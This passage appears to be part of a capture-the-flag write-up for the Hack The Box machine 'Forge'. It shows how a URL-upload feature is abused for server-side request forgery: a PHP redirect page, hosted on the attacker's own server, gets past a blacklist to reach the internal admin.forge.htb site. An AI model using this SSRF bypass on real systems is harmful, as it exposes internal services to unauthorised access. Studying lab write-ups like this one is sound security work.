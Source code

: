 - the uploaded file is just GET requested, not executing it

![image-20240202204443096](./Forge.assets/image-20240202204443096.png)

![image-20240202204451393](./Forge.assets/image-20240202204451393.png)

- `admin.forge.htb`

```console
└─╼$ curl http://admin.forge.htb
Only localhost is allowed!
```

- Upload from url -> able to request content -> request admin.forge.htb -> URL contains a blacklisted address. So, request local resource with redirect to admin.forge.htb

## Foothold

### SSRF

1. visit `admin.forge.htb` using SSRF (download hosted redirection page and obtain the resource)

```console
└─╼$ cat index.php
<?php
header('Location: http://admin.forge.htb');
?>

└─╼$ sudo php -S 0.0.0.0:80
[Fri Feb  2 04:07:41 2024] PHP 8.2.12 Development Server (http://0.0.0.0:80) started
[Fri Feb  2 04:07:50 2024] 10.10.11.111:52768 Accepted
[Fri Feb  2 04:07:50 2024] 10.10.11.111:52768 [302]: GET 
```
